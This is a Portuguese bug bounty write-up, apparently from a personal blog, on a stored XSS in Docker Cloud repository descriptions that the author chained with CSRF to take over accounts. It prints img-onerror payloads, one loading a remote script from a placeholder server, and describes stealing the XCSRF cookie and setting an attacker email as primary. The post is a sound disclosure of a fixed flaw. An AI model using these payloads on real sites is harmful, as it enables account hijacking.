 ```yaml
---
layout: post
title:  "Bug Bounty 00 - Full Account Takeover Docker Cloud (My First CSRF)"
date:   2019-05-15 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei no <a href="https://cloud.docker.com/" target="_blank">Docker Cloud</a>. Esta falha já foi corrigida e tive permissão de falar sobre ela citando o <i>Vendor</i>, então vamos lá :)
</p>

<p align="justify">
Bom, a vulnerabilidade que está no título foi o resultado final de uma cadeia (chain) de outras vulnerabilidades que encontrei inicialmente no domínio do Docker Cloud.
</p>

<p align="justify">
Enquanto navegava pelos repositórios do Docker Cloud, percebi que o usuário podia inserir uma  breve e também uma completa descrição a respeito do projeto. Decidi inserir algumas tags na descrição completa só para teste mesmo (não esperava que realmente iria acontecer), comecei com o famoso <code>&lt;script&gt;alert(document.domain);&lt;/script&gt;</code> e para minha não surpresa, não ocorreu nada.
<br>
<br>
Decidi então inserir uma tag de imagem com um evento Javascript:
<br>
<code>&lt;img src="x" onerror="alert(document.domain)"/&gt;</code>
<br>
após salvar a descrição e atualizar, boooommm :)
<br>
<img src="/images/bug_bounty/bb00/bb00-00.png"/>
</p>

<p align="justify">
Neste ponto, já havia um XSS Stored (Armazenado), pois qualquer usuário que visitasse o meu repositório com o código iria se deparar com o alert(document.domain) sendo executado.
<br>
<br>
Foi então que tive uma ideia de escalar ainda mais a vulnerabilidade, então fui procurar mais sobre e me deparei com o CSRF (Cross Site Request Forgery), que é um tipo de ataque onde você força o usuário a relizar ações forjadas (o usuário acha que está realizando uma ação, mas na verdade está realizando outra). Descobri que para isso eu teria que carregar um script externo, e como a tag script não estava disponível, foi necessário utilizar os eventos JS das tags HTML :)
<br>
<br>
Usei o seguinte payload:
<br>
<code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/reset.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code> 
<br>
que tem como objetivo inserir um novo atributo do tipo javascript no head do HTML da página que será carregado a partir do arquivo <i>reset.js</i> que no caso é o arquivo js que contém o código do exploit.
</p>

<p align="justify">
Para realizar as requisições, era necessário ter o <b>XCSRF-Token</b> do usuário e também que ele estivesse no domínio cloud.docker.com (pode ser acessado pelo domínio hub.docker.com também :) ), pois apenas ele tinha permissão de realizar as requisições para a api.
<br>
<br>
Estas requisições, são as responsáveis pela inserção do email do atacante na conta do usuário e pela definição deste email como primário (quando o usuário reseta a senha o link é enviado para o email primário), portanto o usuário pode ter vários emails, mas o link só será enviado para o endereço de email primário.
</p>

<p align="justify">
Então, primeiramente para ter acesso ao XCSRF-Token do usuário, foi necessário apenas obtê-lo pelo document.cookie (não estava com a flag httpOnly habilitada).
<br>
<br>
E para realizar as requisições, primeramente, no exploit verificava se a URL atual que o usuário estava acessando o repositório era cloud.docker.com, caso fosse positivo ele apenas realizaria as requisições, caso contrário ele redirecionava o usuário para o domínio permitido para realizar as requisições (cloud.docker.com).
</p>

<p align="justify">
Tendo tudo isso em mãos, era necessário apenas realizar as requisições para adicionar o email do atacante na conta do usuário e setar como email primário :)
<br>
<br>
Vale lembrar que o email que o atacante utilizaria não deveria estar cadastrado em nenhuma outra conta :)
<br>
<br>
Tendo efetuado com sucesso o ataque, o atacante teria acesso permanente à conta do usuário, pois mesmo que fosse enviado um link para resetar a senha, seria enviado para o email primário da conta (no caso o do atacante).
</p>

<p align="justify">
Então resumindo, foi utilizado um XSS Stored encadeado com um CSRF para ter acesso permanente à conta de qualquer usuário que acessasse o repositório malicioso :).
</p>

<p align="justify">
Abaixo, a PoC da vulnerabilidade:
<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/wHWfAo76xMY" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</p>

<p align="justify">
Quero agradecer ao <a href="https://twitter.com/K33r0k" target="_blank"><b>k33r0k</b></a> por ter me ajudado a desenrolar a chain com as vulnerabilidades :)
</p>

<p align="justify">
Bom galera, espero que eu tenha passado de forma clara essa resolução da vulnerabilidade encontrada no docker, como já disse ela foi corrigida, já fui recompensado e também fui permitido de realizar o disclosure.
<br>
<br>
Irei trazer mais resoluções ao longo do tempo.
<br>
<br>
Antes que eu esqueça, o exploit pode ser encontrado no meu github: <a href="https://github.com/vitor-fernandes/exploits/blob/master/exploitDocker.js" target="_blank" style="color: blue"><b>Exploit CSRF Docker</b></a> 
</p>